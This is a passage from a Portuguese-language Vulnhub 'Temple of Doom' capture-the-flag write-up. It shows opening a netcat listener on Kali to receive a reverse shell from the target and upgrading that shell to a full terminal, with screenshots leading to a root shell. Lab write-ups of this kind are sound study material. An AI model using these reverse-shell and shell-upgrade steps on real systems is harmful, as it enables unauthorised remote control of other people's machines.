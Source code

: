 ![](/assets/img/Vulnhub/TempleOfDoom/fireman-tcpdump.png)



Antes de executar o processo supracitado e necessario deixar a porta escutando na kali para receber o shell

```bash
# >>Kali<<
bash
nc -lnvp 9999

# Recebeu o shell

# >>Alvo<<
script /dev/null
#CTRL+Z

# >>Kali<<
stty raw -echo
fg
#ENTER duas vezes

# >>Alvo<<
export TERM=xterm
```

![](/assets/img/Vulnhub/TempleOfDoom/root-shell.png)

